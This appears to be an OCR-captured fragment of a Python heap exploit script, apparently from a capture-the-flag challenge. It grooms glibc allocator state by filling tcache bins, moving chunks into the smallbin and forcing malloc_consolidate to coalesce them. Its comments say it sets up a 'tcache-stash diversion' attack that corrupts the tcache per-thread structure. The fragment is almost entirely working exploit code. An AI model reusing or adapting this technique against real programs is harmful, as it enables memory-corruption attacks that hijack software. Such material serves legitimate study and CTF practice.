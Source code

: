 ```py
# BEFORE WE KILL OFF LARGEBINS WE HAVE SOME STUFF TO DO
# WE NEED TO ALLOCATE SOME CHUNKS OF PARTICULAR SIZES 
# SETUP BK POINTERS IN A WAY WHERE IT LEADS BACK TO SMALLBIN
# THIS HAS TO BE SETUP FOR TWO INCOMING STASHING ATTACKS AFTER WHICH WE WILL BECOME AN OVERLORD
# WE NEED A TCACHE CHUNK JUST ABOVE SMALLBIN TO SET UP A POINTER TO IT
# AFTER WHICH WE COALESCE AND SETUP STUFF
# GENERAL LAYOUT [S1]->[S2]->[CHNK_NEAR_STRUCT]->[S3]
# CORRUPTED LAYOUT [S]->[S2]->[PERTHREAD_STRUCT]->[S3]
# S3 CAN BE ANYWHERE BUT IT WILL BE TCACHE OF SIZE 

# SETTING UP SMALLBIN POINTERS FOR TCACHE-STASH DIVERSION ATTACK
# I DONT THINK THIS ATTACK HAS ANY OFFICIAL NAME THOUGH SO ILL JUST CALL IT THAT

# ====================== SETTING UP SMALLBIN POINTERS FOR ATTACK ============================

# SETTING UP ATTACK FOR TCACHE ENTRY 0x328

for i in range (8):
    malloc(f"CACHE-{i}",0x28,b"AAAA")

malloc("T-0",0x450,"HAHA")
malloc("TT-0",0x28,"HAHA")
malloc("TB-0",0x28,"HIHU")

for i in range (7):
    free(f"CACHE-{i}")

# PUTTING CHUNK IN SMALLBIN
free("TT-0")
malloc("T-2",0x440,"HUHU")
free("T-0")
free("TB-0")

# TRIGGERING MALLOC_CONSOLIDATE AGAIN TO COALESCE BACKWARD
malloc("T-3",0x440,"HUHU")
free("T-2")
malloc("STUFF1",0x328,b"SOMETHING")
free("STUFF1")

# ====================== SETTING UP SMALLBIN POINTERS FOR ATTACK? ============================

# THIS IS JUST THE SAME THING REPEAT WITH SOME NAMES CHANGED 
# BUT THIS TIME WE ARE DOING THE SAME FOR TCACHE STRUCT ENTRY 0x348

for i in range (7):
    malloc(f"CACHE2-{i}",0x28,b"AAAA")

malloc("2T-0",0x450,"HAHA")
malloc("2TT-0",0x28,"HAHA")
malloc("2TB-0",0x28,"HIHU")

for i in range (7):
    free(f"CACHE2-{i}")

# PUTTING CHUNK IN SMALLBIN
free("2TT-0")
malloc("2T-2",0x440,"HUHU")
free("2T-0")
free("2TB-0")

# TRIGGERING MALLOC_CONSOLIDATE AGAIN TO COALESCE BACKWARD
malloc("2T-3",0x440,"HUHU")
free("2T-2")
```